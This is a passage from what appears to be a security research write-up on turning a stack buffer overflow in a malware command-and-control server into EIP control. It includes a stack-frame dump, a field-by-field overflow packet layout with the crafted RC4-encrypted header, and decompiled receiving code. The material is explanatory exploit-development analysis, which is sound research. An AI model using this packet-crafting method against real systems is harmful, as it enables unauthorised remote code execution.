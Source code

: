 ### Exploiting the vulnerability: gaining EIP control

The next step here is to exploit this stack buffer overflow into gaining arbitrary code execution on the C2 server. We can overflow `compressedBuffer` into the saved return address on the stack:

```asm
-00001135 compressedBuffer db ?
(...)
-00000134 readfds         fd_set ?
-00000030 compressionType dd ?
-0000002C decompressionSize dd ?
-00000028 pDestinationSize dd ?
-00000024 infoSize        dd ?
-00000020 headerAllocSize dd ?
-0000001C decompressBuffer dd ?                   ; offset
-00000018                 db ? ; undefined
-00000017                 db ? ; undefined
-00000016 lParam          dd ?
-00000012                 db ? ; undefined
-00000011                 db ? ; undefined
-00000010 timeout         timeval ?
-00000008 hWnd            dd ?                    ; offset
-00000004 s               dd ?
+00000000  s              db 4 dup(?) <--- saved register (framepointer)
+00000004  r              db 4 dup(?) <--- saved return address on stack
```

This means that in order to get EIP-control we will have to:

* Craft a packet that triggers the overflow
* Make sure the control-flow reaches the end of the function and returns properly so we get EIP-control

The first we can do by crafting a packet of the form:

```
[mal_header (6 bytes)] [flen (4 bytes)] [infoLen (4 bytes)] [compressedBuffer (0xFFD bytes)] [readfds (0x104 bytes)] [compressionType (4 bytes)] [decompressSize (4 bytes)] [pDestinationSize (4 bytes)] [infoSize (4 bytes)] [headerAllocSize (4 bytes)] [decompressBuffer (4 bytes)] [junk (16 bytes)] [hWnd (4 bytes)] [socket s (4 bytes)] [saved s (4 bytes)] [saved r (4 bytes)]
```

Where:

* infoLen = payloadlen
* infoSize = infoLen + 4
* flen = size of following data blob
* saved r = target EIP

And `mal_header` is the ciphertext of `"\x89\x01" + pack('I', allocSize)` where allocSize is the length of the entire above buffer (save for the 6 `mal_header` bytes) plus 1024. This `mal_header` is the initial packet header crafted to accomodate the following code (from `socket_reader`):

```c
 if ( !(unsigned __int8)recv_from(&s, (int)&lParam, 6) )
      goto LABEL_23;
    rc4_crypt((int)&v17, (int)&lParam, (int)&lParam, 6);
    if ( (_BYTE)lParam != 0x89u )
      goto LABEL_23;
    v4 = GetTickCount_0();
    Windows::ZeroMemory(&wParam, 0x20u);
    v22 = *(LPARAM *)((char *)&lParam + 2);
    v23 = 0;
    PostMessageA(hWnd, 0x402u, (WPARAM)&wParam, 1);
    if ( *(LPARAM *)((char *)&lParam + 2) <= headerAllocSize )
    {
      Windows::ZeroMemory(decompressBuffer, *(LPARAM *)((char *)&lParam + 2));
    }
```